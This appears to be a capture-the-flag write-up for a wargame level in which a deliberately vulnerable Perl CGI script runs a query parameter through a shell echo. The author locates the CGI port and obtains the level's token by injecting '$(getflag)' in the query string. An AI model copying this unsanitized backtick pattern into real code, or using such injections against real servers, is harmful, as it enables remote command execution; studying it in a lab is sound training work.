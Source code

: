 We have a file named **level04.pl** who contain:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI script who take a query string argument named x and run echo with this value.
This script is already in **/var/www/** which is the root of apache (port 80).
Its owner is **flag04**.

```
$ ls -la /var/www/level04
-r-xr-x---+ 1 flag04 level04 152 Jan 30 10:36 level04.pl
```

We can try to run the CGI:

```
$ curl localhost/level04/level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The CGI is not executed, this server is not configured to run CGI.
Check the config files of apache and we can find where cgi are handle:

```
$ cat /etc/apache2/sites-available/level05.conf
<VirtualHost *:4747>
        DocumentRoot    /var/www/level04/
        SuexecUserGroup flag04 level04
        <Directory /var/www/level04>
                Options +ExecCGI
                DirectoryIndex level04.pl
                AllowOverride None
                Order allow,deny
                Allow from all
                AddHandler cgi-script .pl
        </Directory>
</VirtualHost>
```

We can try to use the port 4747.

```
$ curl localhost:4747

```

We got a newline so we can deduce that the CGI is executed.
Lets try with a query string who set x.

```
$ curl localhost:4747/?x=hello
hello
```

Its working like expected so we can try to inject some code.

```
$ curl localhost:4747/?x=\$\(getflag\)
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxxxx
```
